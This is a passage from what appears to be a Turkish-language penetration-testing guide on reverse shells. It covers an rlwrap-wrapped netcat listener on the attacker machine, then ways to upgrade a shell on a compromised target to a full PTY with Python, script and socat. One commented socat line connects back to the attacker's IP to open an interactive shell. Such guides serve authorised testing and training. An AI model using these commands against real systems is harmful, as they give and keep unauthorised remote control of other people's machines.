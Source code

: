 Genel amaçlı iyi bir başlangıç komutu:
```bash
rlwrap -A -r -m -H ~/.cache/rlwrap_history_$(date +%F)_$(echo $RANDOM) nc -lvnp <PORT>
```
Bu komut:
*   ANSI renklerini destekler (`-A`).
*   Geçmişi hatırlar ve kaydeder (`-r`).
*   Çok satırlı girişi `\` ile destekler (`-m`).
*   Geçmişi tarih ve rastgele bir sayı içeren (çakışmaları önlemek için) dinamik bir dosyaya kaydeder (`-H`). `<PORT>` yerine dinlediğiniz portu yazın.

**Unutmayın:** `rlwrap` sadece sizin tarafınızdaki (saldırgan makine) giriş deneyimini iyileştirir. Hedefteki shell hala "dumb" olabilir. Tam işlevsellik için aşağıdaki "Shell Yükseltme Teknikleri" bölümüne bakın.

---

## 3. Hedef Tarafta Shell Yükseltme Teknikleri

`rlwrap` ile ilk bağlantıyı daha konforlu hale getirdikten sonra, hedef sistemdeki shell'i tam işlevsel bir PTY shell'ine yükseltmek istenir. Bu genellikle üç ana adımdan oluşur:

### Adım 1: PTY (Pseudo-Terminal) Oluşturma

Hedef sistemde, mevcut "dumb" shell'i bir PTY içine "spawn" etmemiz (doğurmamız) gerekir. Bu, genellikle hedefte bulunan yorumlayıcılar (Python, Perl, Ruby vb.) veya araçlar (`script`, `socat`) kullanılarak yapılır.

#### Python ile PTY
En yaygın ve genellikle en güvenilir yöntemlerden biridir.

*   **Python 3:**
    ```bash
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```
*   **Python 2:**
    ```bash
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```
*   Eğer `/bin/bash` yoksa, `/bin/sh` veya sistemde bulduğunuz başka bir shell'i (`which sh`, `cat /etc/shells`) deneyin.

#### `script` Komutu ile PTY
`script` komutu genellikle sistemlerde bulunur ve bir PTY oluşturabilir.

```bash
script /dev/null -c /bin/bash
# veya daha sessiz:
script -q /dev/null -c /bin/bash
# Bazen /bin/bash yerine sadece /bin/sh gerekebilir:
script -q /dev/null /bin/sh
```

#### `socat` ile PTY
Eğer hedef sistemde `socat` yüklüyse, bu çok güçlü bir seçenektir. (Daha detaylı `socat` kullanımı için [İleri Düzey Teknikler](#socat-ile-tamamen-i̇nteraktif-shelller) bölümüne bakın).
Basit PTY spawn:
```bash
# Hedefte çalıştırılır (dışarıya bağlantı kurmaz, mevcut shell'i yükseltir)
# Bu komut doğrudan bir PTY spawn etmez, ama socat ile ters shell kurarken PTY oluşturulabilir.
# Doğrudan PTY için genellikle python/script kullanılır.
# Ancak, eğer bir nc shell'iniz varsa ve socat hedefte varsa, daha iyi bir socat shell'e geçebilirsiniz.
# nc shell içinde:
# socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp-connect:<KENDI_IP>:<YENI_PORT>
# Kendi makinenizde yeni bir socat dinleyicisi açmanız gerekir:
```